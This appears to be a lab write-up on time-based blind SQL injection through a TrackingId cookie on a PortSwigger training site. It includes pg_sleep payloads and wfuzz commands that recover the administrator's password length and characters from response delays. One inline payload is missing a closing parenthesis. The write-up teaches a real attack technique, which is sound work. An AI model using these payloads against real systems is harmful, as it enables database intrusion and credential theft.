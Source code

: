 # Blind SQL injection with time delays and information retrieval
[Click here to see the description of the lab.](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)
## Description:
This challenge is about Blind SQL injection based on Time delay. Blind SQL injection doesn't return a response containing the results of the query or any database errors, but it can change some content on the web page, or send an error status code as an HTTP response, in this case neither case is met. To solve this challenge, we rely on the time the query took to be executed, normal time means a condition is not met, more time means a condition is met.
## Writeup:
The challenge's description reveals that the **session cookie** is vulnerable, and we can use it to retrieve the `password` of the `administrator` from the `users` table.
We can use BurpSuite to intercept the request and take a look at the cookie:
![Screenshot from 2024-12-17 16-48-08](https://github.com/user-attachments/assets/4ce87e64-0dff-4118-9727-edc65f3c0ed1)
We can verify that it is a time based sql injection by sending this payload (we suppose that is it a PostgresSQL database) at the end of the TrackiId cookie:
`'|| pg_sleep(5)--`
The response was delayed, so the query works.
Since we can't see the result of  the query injected, and we want to extract the password of the administrator, we can make a delay if the first character of the password equals 'a', the payload should look similar to this:
`'||(SELECT pg_sleep(5) FROM users WHERE username='administrator' AND substr(password, 1, 1)='a'--`
If the condition was correct, the query will be delayed by 5 seconds, and we now know the first character of the password. Following this method manually is impossible since the password can be any length and contain any character, Wfuzz tool can help us.
You can inject a range of numbers, list of words or characters in your payload by writing FUZZ in the chosen injection point, and with the following command we can know the length of the password:
`wfuzz -c -z range,0-30 -H "Cookie: TrackingId=zJ1zKcy39v1HQPaY'||(SELECT pg_sleep(5) FROM users WHERE username='administrator' AND LENGTH(password)=FUZZ)--; session=zgorPVqzeSjnbS5aGVnU7BaAjYjT022D" -u "https://0a4200b7042a32e28467c84d00a100aa.web-security-academy.net/" --filter "r.reqtime>=4"`
The option `--filter r.reqtime>=4` helps us filter the response that took more than 5 seconds, which means the condition is true.
And the result was:
![Screenshot from 2024-12-17 17-00-12](https://github.com/user-attachments/assets/e61133f3-ff73-4e0b-83bf-f4dee5680094)
The password's length is 20, now we can test each index with a set of characters and numbers stored in `ascii.txt` file. The Command would be:
`wfuzz -c -z range,1-20 -z file,/home/kali/Desktop/ascii.txt -H "Cookie: TrackingId=zJ1zKcy39v1HQPaY'||(SELECT pg_sleep(5) FROM users WHERE username='administrator' AND substr(password, FUZZ, 1)='FUZ2Z')--; session=zgorPVqzeSjnbS5aGVnU7BaAjYjT022D" -u "https://0a4200b7042a32e28467c84d00a100aa.web-security-academy.net/" --filter "r.reqtime>=4"`
And now we got the admin's password from the database.
![Screenshot from 2024-12-17 17-01-04](https://github.com/user-attachments/assets/dbe2a2b6-acd0-445d-8d2e-b3ac944f8960)